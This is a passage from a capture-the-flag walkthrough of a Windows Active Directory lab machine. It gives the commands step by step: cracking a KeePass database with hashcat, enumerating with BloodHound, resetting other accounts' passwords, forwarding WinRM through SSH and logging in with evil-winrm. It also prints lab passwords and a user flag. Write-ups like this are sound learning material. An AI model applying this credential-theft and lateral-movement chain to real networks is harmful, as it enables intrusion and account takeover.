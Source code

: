 Note on desktop:
```
Long running MSSQL Proxies can cause issues.  Please switch to SSH after getting credentials.
```

Also a keepass db.

keepass -> keepass2john -> hashcat -> creds.
```
3v4Si0N:Gu4nCh3C4NaRi0N!23
```

SSH time and we get a shell! :)

User.txt:
```
a6d1fd20f241ae2e03a214755610c4b7
```

# Bloodhound time
get data
```bash
python3 bloodhound.py -u 3v4Si0N@LicorDeBellota.htb -ns 10.10.10.240 -d LicorDeBellota.htb -p 'Gu4nCh3C4NaRi0N!23' -c ALL
```

we can reset the password of DR.ZAIUSS that can rdp into the box.

He can reset the password of SUPERFUME which is a member of developers.

In the ssh session
```
net user Dr.Zaiuss Password123#
```

The use ssh to port forward so we can winrm in.

```
ssh -L 5985:localhost:5985 3v4Si0N@10.10.10.240
```

The evil-winrm (update etc/hosts to have localhost pivotapi)
```
evil-winrm -u 'DR.ZAIUSS' -p 'Password123#' -i pivotapi
```

Same thing for superfume.

# Developer account.
There is another exe that probs contains creds in `C:\developers\Jari` called `restart-mssql.exe`

pwd of `Cos@Chung@!RPG` for Jari

Jari can reset gibdeon and this account can add groups to LAPS. To do this we need powerview.ps1.

```bash
evil-winrm -u 'jari' -p 'Cos@Chung@!RPG' -i pivotapi -s ./ps/
```
